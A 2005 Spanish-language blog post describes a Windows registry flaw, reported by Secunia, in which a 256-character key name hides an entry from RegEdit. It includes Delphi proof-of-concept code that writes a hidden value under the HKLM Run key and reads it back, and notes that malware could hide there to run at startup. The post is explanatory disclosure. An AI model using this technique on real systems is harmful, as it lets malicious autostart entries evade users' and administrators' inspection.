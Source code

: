 ```yaml
---
comments: true
date: 2005-10-12 01:41:54
layout: post
slug: una-seria-falla-en-el-registro-de-windows
title: Una seria falla en el registro de Windows
wordpress_id: 154
---
```


Sucede que a veces uno se topa con problemas mas grandes de lo que se imagina.

Investigando sobre un fallo reportado en [Secunia en Agosto](http://secunia.com/advisories/16560/), nunca sospeche que el problema era más serio de lo que pensaba.

Esencialmente, la falla permite excribir una entrada (key) en el registry que no es visible para las herramientas como Microsoft RegEdit.

Como se muestra en la imagen, pude crear una entrada oculta en el registry:


Resulta que debajo de Optional hay una llave cuyo nombre consiste de 256 X seguidas.

El siguiente código en Delphi, permite explicar el fallo:
    
```
    procedure TestRegistryFlaw;
    var
        I: Integer;
        reg : TRegistry;
        key : string;
    begin
        reg := TRegistry.Create;
        key := 'SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Optional\';
        try
            for I := 0 to 255 do    // Iterate
                key := key + 'X';
            reg.RootKey := HKEY_LOCAL_MACHINE;
            if reg.OpenKey(key, true) then
            begin
                ShowMessage('trying to hack');
                reg.WriteString('TestFlaw', 'This is hacked registry key');
                ShowMessage('hacked!!!');
            end;
        finally
            reg.Free;
        end;
    end;

    procedure CheckRegistryFlaw;
    var
        I: Integer;
        reg : TRegistry;
        key : string;
    begin
        reg := TRegistry.Create;
        key := 'SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Optional\';
        try
            reg.RootKey := HKEY_LOCAL_MACHINE;
            for I := 0 to 255 do    // Iterate
                key := key + 'X';
            if reg.OpenKey(key, false) then
            ShowMessage(reg.ReadString('TestFlaw'));
        finally
            reg.Free;
        end;
    end;
```

Lo que tenemos aquí es que hemos creado una entrada que no es visible por regedit y otros utilitarios de Windows.

Pero lo peor, es que en Microsoft.Net este código no puede ser creado, porque la Clase RegistryKey hace un chequeo, levantando una excepción si uno trata de escribir una llave de largo mayor que 255.

En suma, lo que hacen en Microsoft.Net es ocultar el bug debajo de la alfombra.

Pero, ¿cual es el problema con esto? es que uno puede escribir código en la llave Run de Windows, con lo que se hace[posible ocultar virus o malware de cualquier tipo](http://techrepublic.com.com/2100-1009_11-5843863.html), para ser ejecutado en cuanto se inicia Windows, y usted no podrá verlo, porque las herramientas de Windows no le dan la posibilidad de revisar este código malicioso.

Es posible escribir código en C# o C++ que hace lo mismo que el código Delphi que escribí más arriba. Sugiero ver mi post en DarkSideProgramming: [Hidding a Flaw](http://www.darksideprogramming.org/archives/2005/10/hidding_a_flaw.html).

Pero lo interesante, es que algunos programadores en CodeProject han descubierto que, al menos en Windows XP conSP2 la falla es más seria !



